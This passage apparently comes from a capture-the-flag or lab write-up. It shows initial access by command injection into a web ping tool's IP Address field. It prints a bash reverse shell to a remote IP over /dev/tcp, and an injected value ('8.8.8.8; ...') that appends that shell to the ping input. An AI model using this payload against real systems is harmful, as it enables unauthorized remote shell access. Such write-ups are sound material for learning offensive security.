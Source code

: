 now we have our complete payload:

```shell
bash -c 'exec bash -i &>/dev/tcp/3.126.224.214/10266 <&1'
```

Copy the payload and paste in the IP Address field on the site:

![](attachments/20240402121305.png)

```
8.8.8.8; bash -c 'exec bash -i &>/dev/tcp/3.126.224.214/10266 <&1'
```

Hit ping and after a few seconds netcat should catch a shell:

![](attachments/20240402121440.png)

And that's it for the first Route of initial access.
